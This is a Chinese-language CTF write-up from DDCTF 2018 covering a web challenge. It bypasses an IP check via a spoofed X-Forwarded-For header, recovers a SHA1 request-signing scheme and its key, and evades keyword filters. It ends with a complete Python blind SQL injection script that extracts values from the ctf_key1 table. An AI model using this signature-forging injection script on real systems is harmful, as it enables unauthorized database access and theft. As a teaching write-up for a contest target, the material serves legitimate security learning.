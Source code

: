 ```yaml
---
layout:     post
title:      "DDCTF —— 数据库的秘密"
subtitle:   ""
date:       2018-04-24 13:14:00
author:     "kuron3k0"
header-img: "img/post-bg-rwd.jpg"
tags:
    - SQL-Injection
    - CTF
    - WEB
---
```



打开题目，提示特定ip才能连接
![](/img/in-post/post-ddctf-web/ip.png)
<br>

加上`X-Forwarded-For`
![](/img/in-post/post-ddctf-web/xff.png)
<br>

得到如下页面，很明显是查询中的注入问题
![](/img/in-post/post-ddctf-web/origin.png)
<br>    

但是发现url参数中带有sig，在burpsuite中随意修改post参数会返回`sig error`
![](/img/in-post/post-ddctf-web/sig_error.png)
<br>

F12查看search按钮触发的js是`submitt`函数
![](/img/in-post/post-ddctf-web/submit.png)
<br>

具体相关代码如下：<br>

```javascript

function submitt(){
	obj['id']=document.getElementById('id').value;
	obj['title']=document.getElementById('title').value;
	obj['author']=document.getElementById('author').value;
	obj['date']=document.getElementById('date').value;
	var sign=signGenerate(obj,key);
	document.getElementById('queryForm').action="index.php?sig="+sign+"&time="+obj.time;
	document.getElementById('queryForm').submit()
}

function signGenerate(obj,key){
	var str0='';
	for(i in obj){
		if(i!='sign'){
			str1='';
			str1=i+'='+obj[i];
			str0+=str1
		}
	}
	return hex_math_enc(str0+key)
};
```
注：生成签名的`key`可在页面源码中找到
![](/img/in-post/post-ddctf-web/key.png)
<br>

跟着进入`hex_math_enc`函数，是在`static/math.js`中
![](/img/in-post/post-ddctf-web/sign.png)
<br>

……这让人头皮发麻的函数，有两种处理方法：

    - 用python实现再进行注入（不可能的这辈子都不可能的，依稀记得之前做过一条调试一万多行js的题目= =）
    - 在本地用js生成sig，用脚本访问本地页面先把sig拿到再进行注入，但是python的request又不会跑js代码，所以只能用`PhantomJS+Selenium`
<br>

但是觉得不太可能啊，怎么可能这么麻烦，再回头看看js文件，发现如下信息：
![](/img/in-post/post-ddctf-web/sha1.png)
<br>

原来是`sha1`……论看清题目的重要性……<br>
然后就是常规注入了，题目过滤了一些关键字，如`or`，换成`||`即可。<br>
还有在读数据表的时候，发现好像过滤了`database(`……，试了在`database`两边加反引号、在后面加空格、加注释，都失败了，所以只能limit一个一个读……不过根据数据库的特性我们自己的表都是跟在系统表后面，所以倒着来读即可，时间上可以接受。

附脚本：

```python
import requests
import re
import hashlib
import time

base_url = 'http://116.85.43.88:8080/PEQFGTUTQMZWCZGK/dfe3ia/index.php'

header = {
    'X-Forwarded-For':'123.232.23.245'
}

def getLength(index):
    for i in range(0,1000):
        data = {
            'id':'',
            'title':'',
            'author':'admin\'||if(length((select secvalue from ctf_key1 limit {},1))>{},1,0)#'.format(index,i),
            'date':''
        }
        t = str(int(time.time()))
        s = "id={}title={}author={}date={}time={}adrefkfweodfsdpiru".format(
            data['id'],
            data['title'],
            data['author'],
            data['date'],
            t
        )
        sha1hash = hashlib.sha1(s).hexdigest()
        res = requests.post(url=base_url+"?sig={}&time={}".format(sha1hash,t),data=data,headers=header)
        if 'test<' not in res.text.decode('utf-8'):
            return i
        else:
            print i


def getContent(index,length):
    session = requests.session()
    ans = ''
    for i in range(1,length+1):
        for st in range(0,256):
            data = {
                'id':'',
                'title':'',
                'author':'admin\'||if(ascii(mid((select secvalue from ctf_key1 limit {},1),{},1))>{},1,0)#'.format(index,i,st),
                'date':''
            }
            t = str(int(time.time()))
            s = "id={}title={}author={}date={}time={}adrefkfweodfsdpiru".format(
                data['id'],
                data['title'],
                data['author'],
                data['date'],
                t
            )
            sha1hash = hashlib.sha1(s).hexdigest()
            res = session.post(url=base_url+"?sig={}&time={}".format(sha1hash,t),data=data,headers=header)
            if 'test<' not in res.text.decode('utf-8'):
                ans+=chr(int(st))
                print ans
                break

for i in range(0,30):
    LENGTH = getLength(i)
    getContent(i,LENGTH)



```
